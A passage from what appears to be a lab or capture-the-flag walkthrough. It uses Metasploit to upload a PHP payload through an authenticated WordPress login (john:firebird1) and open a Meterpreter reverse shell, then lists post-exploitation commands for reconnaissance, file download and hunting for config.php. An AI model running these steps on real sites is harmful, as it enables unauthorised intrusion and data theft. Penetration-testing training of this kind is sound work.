 ```bash
set LPORT 4444
```

#### Module Options Verification
```bash
# Verify all settings
show options

# Required parameters:
# USERNAME  - Valid WordPress username
# PASSWORD  - User's password
# RHOSTS    - Target IP address
# VHOST     - Virtual host (if required)
# LHOST     - Attacking machine IP
# LPORT     - Listener port
```

#### Exploitation Execution
```bash
# Launch exploit
exploit

# Expected output:
[*] Authenticating with WordPress using john:firebird1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/[RANDOM]/[RANDOM].php...
[*] Meterpreter session 1 opened

# Verify access
getuid
sysinfo
pwd
```

### Meterpreter Post-Exploitation

#### System Information Gathering
```bash
# Meterpreter commands for reconnaissance
sysinfo                    # System information
getuid                     # Current user context
ps                         # Running processes
netstat                    # Network connections
route                      # Network routes
```

#### File System Exploration
```bash
# Navigate and explore
pwd                        # Current directory
ls                         # Directory listing
cd /var/www/html          # Navigate to web root
download flag.txt         # Download files
search -f config.php      # Find configuration files
```

---